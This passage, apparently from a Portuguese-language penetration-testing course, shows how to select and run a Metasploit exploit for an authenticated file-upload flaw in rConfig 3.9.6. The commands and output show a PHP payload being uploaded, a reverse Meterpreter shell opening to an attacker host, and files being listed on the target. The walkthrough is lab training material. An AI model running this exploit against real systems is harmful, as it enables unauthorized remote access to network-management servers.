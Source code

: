 
## Usando o rConfig Exploit e ganhando um shell

No msfconsole, podemos carregar manualmente a exploração usando o comando:

#### Selecione um Exploit

```shell-session
msf6 > use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
```

Com essa exploração selecionada, podemos listar as opções, inserir as configurações apropriadas específicas para o nosso ambiente de rede e iniciar a exploração.

Use o que você aprendeu no módulo até agora para preencher as opções associadas à exploração.

#### Executar a exploração

```shell-session
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] 3.9.6 of rConfig found !
[+] The target appears to be vulnerable. Vulnerable version of rConfig found !
[+] We successfully logged in !
[*] Uploading file 'olxapybdo.php' containing the payload...
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 10.129.201.101
[+] Deleted olxapybdo.php
[*] Meterpreter session 1 opened (10.10.14.111:4444 -> 10.129.201.101:38860) at 2021-09-27 13:49:34 -0400

meterpreter > dir
Listing: /home/rconfig/www/images/vendor
========================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  673   fil   2020-09-03 05:49:58 -0400  ajax-loader.gif
100644/rw-r--r--  1027  fil   2020-09-03 05:49:58 -0400  cisco.jpg
100644/rw-r--r--  1017  fil   2020-09-03 05:49:58 -0400  juniper.jpg
```

Podemos ver pelas etapas descritas no processo de exploração que essa exploração:

- Verifica a versão vulnerável do rConfig
- Autentica com o login da web rConfig
- Carrega uma carga útil baseada em PHP para uma conexão de shell reverso
- Exclui a carga útil
- Nos deixa com uma sessão de concha do Meterpreter

#### Interaja com o shell

```shell-session

meterpreter > shell

Process 3958 created.
Channel 0 created.
dir
ajax-loader.gif  cisco.jpg  juniper.jpg
ls
ajax-loader.gif
cisco.jpg
juniper.jpg
```
